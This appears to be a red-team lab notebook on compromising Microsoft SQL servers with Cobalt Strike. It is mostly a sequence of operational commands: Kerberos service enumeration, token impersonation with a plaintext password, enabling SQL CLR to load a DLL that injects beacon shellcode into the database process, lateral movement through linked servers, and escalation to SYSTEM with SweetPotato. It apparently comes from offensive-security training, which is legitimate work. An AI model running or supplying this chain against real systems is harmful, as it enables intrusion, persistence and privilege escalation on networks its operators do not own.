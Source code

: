 
Search for MSSQL servers configured for Kerberos authentication.
```powershell
ldapsearch (&(samAccountType=805306368)(servicePrincipalName=MSSQLSvc*)) --attributes name,samAccountName,servicePrincipalName
```

Basic enumeration - we want to be a sysadmin
```powershell
sql-info lon-db-1
sql-whoami lon-db-1
```

Impersonate a sysadmin user
```powershell
make_token CONTOSO\rsteel Passw0rd!

sql-whoami lon-db-1
```

---

##### SQL CLR RCE

Check if CRL is enabled and enable if needed
```powershell
sql-query lon-db-1 "SELECT value FROM sys.configurations WHERE name = 'clr enabled'"

sql-enableclr lon-db-1
```

 Open Visual Studio and create a new [Class Library (.NET Framework)](obsidian://open?vault=Offensive%20Security&file=root%2FRed%20Teaming%2FCobalt%20Strike%20Assumed%20Breach%2F1.%20Initial%20Access%2FLab) project:
    
    1. Project name: MyProcedure.
    2. Place in the same directory: Checked
    3. Add _smb_x64.xthread.bin_ and set build action to an embedded resource            (threaded shell code).

> We want the shell code running as a thread so if we exit the beacon and it's running in the database process, it won't tear down the database process and just the beacon thread

Use the code found [here](obsidian://open?vault=Offensive%20Security&file=root%2FRed%20Teaming%2FCobalt%20Strike%20Assumed%20Breach%2F1.%20Initial%20Access%2FPayloads%2FSQL%20CLR%20Payload)

 >This will perform classic injection where the Beacon will run inside the MS SQL process.

 Load the DLL onto the server
```powershell
sql-clr lon-db-1 C:\Users\Attacker\source\repos\MyProcedure\bin\Release\MyProcedure.dll MyProcedure
```

Link to existing beacon
```powershell
 link lon-db-1 TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337
```

Disable SQL CLR 
```powershell
sql-disableclr lon-db-1
```

--- 

##### Lateral movement

Enumerate SQL Links
```powershell
sql-links DUB-SQL-1
```

Verify privileges on linked DB
```powershell
sql-whoami lon-db-1 "" lon-db-2
```

Check if RPC Out is enabled on the link ; enable if required
```powershell
sql-checkrpc lon-db-1

sql-enablerpc lon-db-1 lon-db-2
```

Execute SQL CLR payload on link
```powershell
sql-clr lon-db-1 C:\Users\Attacker\source\repos\MyProcedure\bin\Release\MyProcedure.dll MyProcedure "" lon-db-2
```

Link beacon on link to beacon on DB1
```powershell
‌link lon-db-2 TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337
```

---

##### Privilege Escalation

Enumerate token privileges
```poweshell
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe TokenPrivileges
```

Upload payload to service directory
```powershell
cd C:\Windows\ServiceProfiles\MSSQLSERVER\AppData\Local\Microsoft\WindowsApps

upload C:\Payloads\tcp-local_x64.exe
```

Execute payload as SYSTEM with SweetPotato
```powershell
execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p "C:\Windows\ServiceProfiles\MSSQLSERVER\AppData\Local\Microsoft\WindowsApps\tcp-local_x64.exe"
```

Connect to new P2P Beacon
```powershell
connect localhost 1337
```